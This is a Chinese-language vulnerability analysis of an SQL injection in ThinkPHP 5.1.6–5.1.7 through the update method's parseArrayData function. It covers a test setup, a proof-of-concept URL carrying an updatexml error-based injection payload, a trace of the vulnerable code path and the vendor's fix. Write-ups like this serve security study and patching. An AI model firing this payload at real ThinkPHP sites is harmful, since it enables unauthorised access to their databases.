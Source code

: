 5.1.6 \<= Thinkphp \<= 5.1.7（非最新的 5.1.8 版本也可利用）
===========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update**
方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData**
方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致
**SQL注入漏洞** 的产生

二、漏洞影响
------------

5.1.6\<=ThinkPHP\<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.7"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->where(['id' => 1])->update(['username' => $username]);
            return 'Update success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId26.png)

### 漏洞分析

![2.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId28.png)

首先在官方发布的 **5.1.9**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case**
语句之前出现过 **insert** 注入，所以比较可疑。

![3.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId29.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了
**Connection** 类的 **update**
方法，该方法又调用了 **\$this-\>builder** 的 **insert** 方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId30.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData**
方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞**
，现已修复，然而却多了 **default**
代码段，而这段代码也是在新版本中被删除的。

![5.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId31.png)

我们跟进到 **parseArrayData**
方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的
**insert** 注入一样，用 **str\_replace**
将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId32.png)

上面 **第15行** 的 **\$result** 相当于 **\$a(\'\$b(\$c)\')** 其中
**\$a、\$b、\$c** 均可控。最后形成的 **SQL** 语句如下：

    UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1;

接着我们想办法闭合即可。我们令 **\$a =
updatexml(1,concat(0x7,user(),0x7e),1)\^** 、 **\$b = 0** 、 **\$c = 1**
，即：

    UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8.png](./.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
